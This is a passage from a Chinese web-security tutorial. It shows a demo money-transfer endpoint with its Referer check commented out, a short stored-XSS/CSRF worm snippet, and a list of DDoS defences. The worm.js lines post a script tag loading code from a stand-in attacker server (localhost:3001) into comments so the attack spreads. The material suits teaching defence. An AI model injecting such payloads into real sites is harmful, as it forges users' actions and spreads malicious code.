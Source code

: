             });
}
</code></pre>
<p>server.js</p>
<pre><code class="lang-js">app.post(&apos;/api/transfer&apos;, function (req, res) {
    // let referer = req.headers[&apos;referer&apos;];
    //if (/^https?:\/\/localhost:3000/.test(referer)) {
    let { target, amount, clientToken, captcha } = req.body;
    amount = isNaN(amount) ? 0 : Number(amount);
    let { username, token } = userSessions[req.cookies.sessionId];
    if (username) {
        if (clientToken == token) {
            let user;
            for (let i = 0; i &lt; users.length; i++) {
                if (username == users[i].username) {
                    users[i].money -= amount;
                } else if (target == users[i].username) {
                    users[i].money += amount;
                }
            }
            res.json({ code: 0 });
        } else {
            res.json({ code: 1, error: &apos;&#x8FDD;&#x6CD5;&#x64CD;&#x4F5C;&apos; });
        }
    } else {
        res.json({ code: 1, error: &apos;&#x7528;&#x6237;&#x6CA1;&#x6709;&#x767B;&#x5F55;&apos; });
    }
    //} else {
    res.json({ code: 1, error: &apos;referer&#x4E0D;&#x6B63;&#x786E;&apos; });
    //}
})
</code></pre>
<h4 id="t182.2.4 xss+csrf(&#x8815;&#x866B;)">2.2.4 xss+csrf(&#x8815;&#x866B;) <a href="#t182.2.4 xss+csrf(&#x8815;&#x866B;)"> # </a></h4>
<p>&#x4E0D;&#x65AD;&#x4F20;&#x64AD;&#x7684;xss+csrf&#x653B;&#x51FB; 
worm.js</p>
<pre><code class="lang-js">const attack = &apos;<script src="http://localhost:3001/worm.js"></script>&apos;;
$.post(&apos;/api/comments&apos;, { content: &apos;haha&apos; + attack });
</code></pre>
<h2 id="t193. DDOS&#x653B;&#x51FB;">3. DDOS&#x653B;&#x51FB; <a href="#t193. DDOS&#x653B;&#x51FB;"> # </a></h2>
<p>&#x5206;&#x5E03;&#x5F0F;&#x62D2;&#x7EDD;&#x670D;&#x52A1;(Distribute Denial Of Service)</p>
<ul>
<li>&#x9ED1;&#x5BA2;&#x63A7;&#x5236;&#x5927;&#x91CF;&#x7684;&#x8089;&#x9E21;&#x5411;&#x53D7;&#x5BB3;&#x4E3B;&#x673A;&#x53D1;&#x9001;&#x975E;&#x6B63;&#x5E38;&#x8BF7;&#x6C42;&#xFF0C;&#x5BFC;&#x81F4;&#x76EE;&#x6807;&#x4E3B;&#x673A;&#x8017;&#x5C3D;&#x8D44;&#x6E90;&#x4E0D;&#x80FD;&#x4E3A;&#x5408;&#x6CD5;&#x7528;&#x6237;&#x63D0;&#x4F9B;&#x670D;&#x52A1;</li>
<li>&#x9A8C;&#x8BC1;&#x7801;&#x662F;&#x6211;&#x4EEC;&#x5728;&#x4E92;&#x8054;&#x7F51;&#x5341;&#x5206;&#x5E38;&#x89C1;&#x7684;&#x6280;&#x672F;&#x4E4B;&#x4E00;&#x3002;&#x4E0D;&#x5F97;&#x4E0D;&#x8BF4;&#x9A8C;&#x8BC1;&#x7801;&#x662F;&#x80FD;&#x591F;&#x6709;&#x6548;&#x5730;&#x9632;&#x6B62;&#x591A;&#x6B21;&#x91CD;&#x590D;&#x8BF7;&#x6C42;&#x7684;&#x884C;&#x4E3A;&#x3002;</li>
<li>&#x9650;&#x5236;&#x8BF7;&#x6C42;&#x9891;&#x7387;&#x662F;&#x6211;&#x4EEC;&#x6700;&#x5E38;&#x89C1;&#x7684;&#x9488;&#x5BF9; DDOS &#x653B;&#x51FB;&#x7684;&#x9632;&#x5FA1;&#x63AA;&#x65BD;&#x3002;&#x5176;&#x539F;&#x7406;&#x4E3A;&#x8BBE;&#x7F6E;&#x6BCF;&#x4E2A;&#x5BA2;&#x6237;&#x7AEF;&#x7684;&#x8BF7;&#x6C42;&#x9891;&#x7387;&#x7684;&#x9650;&#x5236;</li>
<li>&#x589E;&#x52A0;&#x673A;&#x5668;&#x589E;&#x52A0;&#x670D;&#x52A1;&#x5E26;&#x5BBD;&#x3002;&#x53EA;&#x8981;&#x8D85;&#x8FC7;&#x4E86;&#x653B;&#x51FB;&#x6D41;&#x91CF;&#x4FBF;&#x53EF;&#x4EE5;&#x907F;&#x514D;&#x670D;&#x52A1;&#x762B;&#x75EA;</li>
<li>&#x8BBE;&#x7F6E;&#x81EA;&#x5DF1;&#x7684;&#x4E1A;&#x52A1;&#x4E3A;&#x5206;&#x5E03;&#x5F0F;&#x670D;&#x52A1;&#xFF0C;&#x9632;&#x6B62;&#x5355;&#x70B9;&#x5931;&#x6548;</li>
<li>&#x4F7F;&#x7528;&#x4E3B;&#x6D41;&#x4E91;&#x7CFB;&#x7EDF;&#x548C; CDN&#xFF08;&#x4E91;&#x548C; CDN &#x5176;&#x81EA;&#x8EAB;&#x6709; DDOS &#x7684;&#x9632;&#x8303;&#x4F5C;&#x7528;&#xFF09;</li>